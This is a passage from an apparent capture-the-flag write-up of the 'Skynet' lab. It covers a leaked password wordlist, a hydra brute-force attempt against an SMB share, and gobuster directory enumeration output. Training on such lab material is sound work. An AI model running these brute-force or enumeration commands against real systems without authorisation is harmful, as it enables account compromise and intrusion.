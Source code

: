 ```bash
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

At this point we can make two solid assomption:
- Miles Dyson change his own password
- The `log1.txt` is probably a password wordlist

Now, which one is Miles Dyson password?

Why not a brute-force on the other share?

```bash
hydra -l milesdyson -P Dump/wordlist.skynet $TARGET smb 

...
1 of 1 target completed, 0 valid password found
...
```

![whyyyy](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExZ3ZkZ2tueDc2amZtdHh1cmwzMWJ0dWdrdnM1ZTNlcWlicnlsMjdieCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/13hzUKAm21cvDy/giphy.gif)
_whyyyy_

Okay, it is quite frustrating 😑 Let's see on the side of the Web app.

### WEB enumeration

```bash
$ gobuster dir -u http://skynet.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://skynet.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/admin                (Status: 301) [Size: 308] [--> http://skynet.thm/admin/]
/ai                   (Status: 301) [Size: 305] [--> http://skynet.thm/ai/]
/config               (Status: 301) [Size: 309] [--> http://skynet.thm/config/]
/css                  (Status: 301) [Size: 306] [--> http://skynet.thm/css/]
/js                   (Status: 301) [Size: 305] [--> http://skynet.thm/js/]
/server-status        (Status: 403) [Size: 275]
/squirrelmail         (Status: 301) [Size: 315] [--> http://skynet.thm/squirrelmail/]
Progress: 20478 / 20479 (100.00%)
===============================================================
Finished
===============================================================
```